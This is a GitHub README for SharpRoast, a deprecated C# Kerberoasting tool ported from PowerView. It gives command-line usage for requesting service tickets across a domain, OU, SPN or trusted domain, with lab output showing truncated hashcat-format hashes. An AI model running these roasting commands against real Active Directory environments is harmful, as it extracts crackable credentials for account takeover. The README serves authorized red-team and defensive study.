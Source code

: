 # This project has now been deprecated. Its functionality has been incorporated into [Rubeus](https://github.com/GhostPack/Rubeus) via the "kerberoast" action, which provides proper ASN.1 structure parsing.


# SharpRoast

----

SharpRoast is a C# port of various [PowerView's Kerberoasting functionality](https://github.com/PowerShellMafia/PowerSploit/blob/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1#L2574-L2774). The [KerberosRequestorSecurityToken.GetRequest Method()](https://msdn.microsoft.com/en-us/library/system.identitymodel.tokens.kerberosrequestorsecuritytoken.getrequest(v=vs.110).aspx) method was contributed to PowerView by [@machosec](https://twitter.com/machosec). The hashes are output in [hashcat](https://hashcat.net/hashcat/) format.

[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SharpRoast is licensed under the BSD 3-Clause license.

## Usage

Roast all users in the current domain:

    C:\Temp>SharpRoast.exe all
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

    SamAccountName         : sqlservice
    DistinguishedName      : CN=SQL,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : MSSQLSvc/SQL.testlab.local
    Hash                   : $krb5tgs$23$*$testlab.local$MSSQLSvc/SQL.testlab.local*$9994D1...

    ...

Roast a specific SPN:

    C:\Temp>SharpRoast.exe "asdf/asdfasdf"
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

Roast a specific user in the current domain:

    C:\Temp>SharpRoast.exe harmj0y
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...

Roast users from a specified OU in the current domani:

    C:\Temp>SharpRoast.exe "OU=TestingOU,DC=testlab,DC=local"
    SamAccountName         : testuser2
    DistinguishedName      : CN=testuser2,OU=TestingOU,DC=testlab,DC=local
    ServicePrincipalName   : service/host
    Hash                   : $krb5tgs$23$*$testlab.local$service/host*$08A6462...

Roast a specific specific SPN in another (trusted) domain:

    C:\Temp\>SharpRoast.exe "MSSQLSvc/SQL@dev.testlab.local"
    Hash                   : $krb5tgs$23$*user$DOMAIN$MSSQLSvc/SQL@dev.testlab.local*$9994D148...
    
Roast all users in another (trusted) domain:

    C:\Temp>SharpRoast.exe "LDAP://DC=dev,DC=testlab,DC=local"
    SamAccountName         : jason
    DistinguishedName      : CN=jason,CN=Users,DC=dev,DC=testlab,DC=local
    ServicePrincipalName   : test/test
    Hash                   : $krb5tgs$23$*$dev.testlab.local$test/test*$9129566...

Any of these commands also accept a [domain.com\user] [password] for to roast with explicit credentials. For example:

    C:\Temp>SharpRoast.exe harmj0y "testlab.local\dfm" "Password123!"
    SamAccountName         : harmj0y
    DistinguishedName      : CN=harmj0y,CN=Users,DC=testlab,DC=local
    ServicePrincipalName   : asdf/asdfasdf
    Hash                   : $krb5tgs$23$*$testlab.local$asdf/asdfasdf*$14AA4F...


## Compile Instructions

We are not planning on releasing binaries for SharpRoast, so you will have to compile yourself :)

SharpRoast has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
